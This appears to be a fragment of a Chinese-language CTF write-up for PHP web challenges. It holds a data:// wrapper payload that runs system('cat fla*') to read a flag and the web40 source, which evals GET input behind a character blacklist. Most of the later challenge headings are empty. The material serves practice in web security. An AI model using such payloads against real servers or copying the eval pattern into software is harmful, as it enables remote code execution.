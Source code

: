 

```
/?c=data://text/plain,<?php system('cat fla*');?>
??为什么base64不行
```



## web40

```
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }
        
}else{
    highlight_file(__FILE__);
}
```



```

```



## web41









## web42

## web43

## web44

## web45

## web46

## web47

## web48
